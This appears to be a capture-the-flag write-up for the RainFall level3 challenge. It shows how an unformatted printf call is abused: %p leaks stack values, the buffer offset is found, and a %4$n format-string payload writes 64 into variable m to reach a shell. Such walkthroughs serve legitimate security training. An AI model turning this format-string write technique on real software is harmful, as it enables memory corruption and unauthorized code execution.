 We start by opening the file in [dogbolt](https://dogbolt.org/). Here we can see that it use a printf without specifying a format

So we can try to play with it by, doing something like:

```
level3@RainFall:~$ ./level3
%p %p %p
0x200 0xb7fd1ac0 0xb7ff37d0
```

We can that using %p result of memory display.

Since with printf we can write on the stack using %n this is a vulnerability.

Now we will see how to write on our variable `m` to enter the if statement.
We know that %n put the length off a string in a given address :

```
printf("abc%n\n",&nb); // nb == 3
```

Ok we know we can write with %n but how can I find a variable with the 64 char needed to match the condition ?
We will use printf to check the stack, I start by putting some "AAAA" at the start of our printf this help us determine where our buffer start.
Then I will use %p to check pointers :

```
./level3
AAAA %p %p %p %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

We can see that the start of our buffer is 4 pointer or %4$p

Ok I can write a specific value on an address will the address,
so we will get the address of `m` who can be found with `gdb` or `objdump -t`
address : 0804988c
in little endian : \x8c\x98\x04\x08

Ok we have the address and a value time to put the value in the `m`
The injection will look like:
[address of `m` (to set the printf pointer on it)][64 - len(address) = 60][%4$n(start of our buffer)]

```Shell
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit && cat /tmp/exploit - | ./level3
```

